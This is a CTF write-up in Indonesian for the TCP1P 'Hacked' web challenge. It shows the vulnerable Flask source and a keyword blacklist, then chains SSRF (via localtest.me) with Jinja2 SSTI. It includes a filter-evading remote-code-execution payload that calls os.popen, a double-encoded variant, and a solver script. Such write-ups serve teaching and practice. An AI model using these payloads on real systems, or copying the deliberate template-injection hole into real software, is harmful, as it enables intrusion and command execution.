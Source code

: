 # TCP1P CTF - WEB - Hacked Writeup

Pada Challenge kali ini diberikan sebuah aplikasi web, yang terdapat kerentanan SSRF dan di chain dengan SSTI untuk mendapatkan flag, untuk mengeksekusi SSRF caranya cukup mudah, namun untuk melakukan SSTI terdapat sangat banyak filter yang menghalangi sehingga cara untuk mendapatkan SSTI cukup tricky.

## Source Code
### App.py
```python
from flask import Flask, request, Response, jsonify, redirect, url_for, render_template_string, abort
from util import is_from_localhost, proxy_req
import random, os

app = Flask(__name__)

# I BLACKLIST EVERY CHAR :)

blacklist = ["debug", "args", "headers", "cookies", "environ", "values", "query",
    "data", "form", "os", "system", "popen", "subprocess", "globals", "locals",
    "self", "lipsum", "cycler", "joiner", "namespace", "init", "join", "decode",
    "module", "config", "builtins", "import", "application", "getitem", "read",
    "getitem", "mro", "endwith", " ", "'", '"', "_", "{{", "}}", "[", "]", "\\", "x"]

from flask import request, abort

def check_forbidden_input(func):
    def wrapper(*args, **kwargs):
        for header, value in request.headers.items():
            for forbidden_str in blacklist:
                if forbidden_str in value:
                    abort(400, f"Forbidden: '{forbidden_str}' not allowed in {header} header")

        for key, value in request.args.items():
            for forbidden_str in blacklist:
                if forbidden_str in value:
                    abort(400, f"Forbidden: '{forbidden_str}' not allowed in URL parameter '{key}'")

        try:
            if request.is_json:
                json_data = request.get_json()
                if json_data:
                    for key, value in json_data.items():
                        for forbidden_str in blacklist:
                            if forbidden_str in value:
                                abort(400, f"Forbidden: '{forbidden_str}' not allowed in JSON request body key '{key}'")
            else:
                body = request.get_data(as_text=True)
                for forbidden_str in blacklist:
                    if forbidden_str in body:
                        abort(400, f"Forbidden: '{forbidden_str}' not allowed in request body")
        except Exception as e:
            pass

        # Call the original function if checks pass
        return func(*args, **kwargs)
    return wrapper

@app.route('/', methods=['GET'])
@check_forbidden_input
def proxy():
    url = request.args.get('url')

    list_endpoints = [
        '/about/',
        '/portfolio/',
    ]

    if not url:
        endpoint = random.choice(list_endpoints)
        # Construct the URL with query parameter
        return redirect(f'/?url={endpoint}')
    
    target_url = "http://daffa.info" + url

    if target_url.startswith("http://daffa.info") and any(target_url.endswith(endpoint) for endpoint in list_endpoints):
        response, headers = proxy_req(target_url)

        return Response(response.content, response.status_code, headers.items())
    else:
        abort(403)

@app.route('/secret', methods=['GET', 'POST'])
@is_from_localhost
def dev_secret():
    admin = "daffainfo"
    css_url = url_for('static', filename='css/main.css')

    if request.args.get('admin') is not None:
        admin = request.args.get('admin')

    if not admin:
        abort(403)

    template = '''<!DOCTYPE html>
        <html lang="en">
        <head>
            <meta charset="UTF-8">
            <meta name="viewport" content="width=device-width, initial-scale=1.0">
            <title>Admin Notes Preview</title>
            <link rel="stylesheet" href="{}">
        </head>
        <body>
            <h1>NOTES!! ONLY ADMIN CAN ACCESS THIS AREA!</h1>
            <form action="" method="GET">
                <label for="admin">Admin:</label>
                <input type="text" id="admin" name="admin" required>
                <br>
                <input type="submit" value="Preview!">
            </form>
            <p>Admin: {}<span id="adminName"></span></p>
        </body>
        </html>'''.format(css_url, admin)
    return render_template_string(template)

app.run(host='0.0.0.0', port=1337)
```

### util.py
```python
from flask import request, abort
import functools, requests
from urllib.parse import urlparse

RESTRICTED_URLS = ['localhost', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9']

def is_safe_url(url):
    parsed_url = urlparse(url)
    hostname = parsed_url.hostname
    if not hostname:
        return False
    for restricted_url in RESTRICTED_URLS:
        if restricted_url in hostname:
            return False
    return True

def is_from_localhost(func):
    @functools.wraps(func)
    def check_ip(*args, **kwargs):
        if request.remote_addr != '127.0.0.1':
            return abort(403)
        return func(*args, **kwargs)
    return check_ip

def proxy_req(url):
    method = request.method
    headers =  {
        key: value for key, value in request.headers if key.lower() in ['x-csrf-token', 'cookie', 'referer']
    }
    data = request.get_data()

    response = requests.request(
        method,
        url,
        headers=headers,
        data=data,
        verify=False
    )

    if not is_safe_url(url) or not is_safe_url(response.url):
        return abort(403)
    
    return response, headers
```

## Gather Information

berdasarkan kode diatas, ketika kita memasukan parameter `/?url=/about/` maka web akan melakukan search dengan domain `http://daffa.info/about/`, ini bisa kita manfaatkan untuk melakukan SSRF, berikut payloadnya

### SSRF Payload
#### Parameter
```bash
/?url=@localtest.me/secret?admin=/about/
```
dengan memasukan payload diatas, kita bisa melakukan bypass yang mana hanya localhost yang bisa mengakses endpoint `secret`

Setelah masuk ke endpoint secret, disini kesenangan dimulai, kita harus mencari cara untuk melakukan SSTI dengan banyaknya blacklist yang ada. kita bisa memasukan SSTI pada parameter admin.

### SSTI Payload
#### blacklist
```python
blacklist = ["debug", "args", "headers", "cookies", "environ", "values", "query",
    "data", "form", "os", "system", "popen", "subprocess", "globals", "locals",
    "self", "lipsum", "cycler", "joiner", "namespace", "init", "join", "decode",
    "module", "config", "builtins", "import", "application", "getitem", "read",
    "getitem", "mro", "endwith", " ", "'", '"', "_", "{{", "}}", "[", "]", "\\", "x"]
```
#### RCE Payload
```python
{%with a=request|attr("appli"+"cation")|attr("\u005f\u005fglo"+"bals\u005f\u005f")|attr("\u005f\u005fget"+"item\u005f\u005f")("\u005f\u005fbuil"+"tins\u005f\u005f")|attr("\u005f\u005fgeti"+"tem\u005f\u005f")("\u005f\u005fimp"+"ort\u005f\u005f")("o"+"s")|attr("po"+"pen")("cat${IFS}/")|attr("re"+"ad")()%}{%print(a)%}{%endwith%}
```
Payload RCE diatas sudah dimodifikasi dengan metode bypass blacklist yang ada, namun masih terdapat beberapa karakter blacklist seperti `"`, sehingga payload masih belum bisa bekerja, langkah selanjutnya adalah melakukan url encode 2 kali terhadap payload diatas

#### RCE Payload with double url encode
```python
%257B%2525with%2520a%253Drequest%257Cattr%2528%2522appli%2522%252B%2522cation%2522%2529%257Cattr%2528%2522%255Cu005f%255Cu005fglo%2522%252B%2522bals%255Cu005f%255Cu005f%2522%2529%257Cattr%2528%2522%255Cu005f%255Cu005fget%2522%252B%2522item%255Cu005f%255Cu005f%2522%2529%2528%2522%255Cu005f%255Cu005fbuil%2522%252B%2522tins%255Cu005f%255Cu005f%2522%2529%257Cattr%2528%2522%255Cu005f%255Cu005fgeti%2522%252B%2522tem%255Cu005f%255Cu005f%2522%2529%2528%2522%255Cu005f%255Cu005fimp%2522%252B%2522ort%255Cu005f%255Cu005f%2522%2529%2528%2522o%2522%252B%2522s%2522%2529%257Cattr%2528%2522po%2522%252B%2522pen%2522%2529%2528%2522cat%2524%257BIFS%257D%252F%2522%2529%257Cattr%2528%2522re%2522%252B%2522ad%2522%2529%2528%2529%2525%257D%257B%2525print%2528a%2529%2525%257D%257B%2525endwith%2525%257D
```

## Automation Solver Code
```python
import requests
from bs4 import BeautifulSoup
url = 'http://127.0.0.1:23678/'
# url = 'http://ctf.tcp1p.team:10012'
headers = {
    'Accept-Language': 'en-US',
    'Upgrade-Insecure-Requests': '1',
    'Connection': 'keep-alive',
    'Accept-Encoding': 'identity',
    'x-csrf-token': 'sad'
}
ssti = '{%with a=request|attr("appli"+"cation")|attr("\u005f\u005fglo"+"bals\u005f\u005f")|attr("\u005f\u005fget"+"item\u005f\u005f")("\u005f\u005fbuil"+"tins\u005f\u005f")|attr("\u005f\u005fgeti"+"tem\u005f\u005f")("\u005f\u005fimp"+"ort\u005f\u005f")("o"+"s")|attr("po"+"pen")("cat${IFS}/")|attr("re"+"ad")()%}{%print(a)%}{%endwith%}'
response = requests.get(url + f'/?url=@localtest.me:1337/secret?admin={ssti}/about/', headers=headers)
print(response.text)
if response.status_code == 200:
    soup = BeautifulSoup(response.text, 'html.parser')

    title = soup.title.string if soup.title else 'No Title Found'
    print(f"Title: {title}")

    body_text = soup.body.get_text(separator='\n', strip=True) if soup.body else 'No Body Found'
    print("\nBody Text:\n")
    print(body_text)
else:
    print(f"Error: {response.status_code}")

# Admin: TCP1P{Ch41n1ng_SsRF_pLu5_5St1_ba83f3ff121ba83f3ff121}/about/
```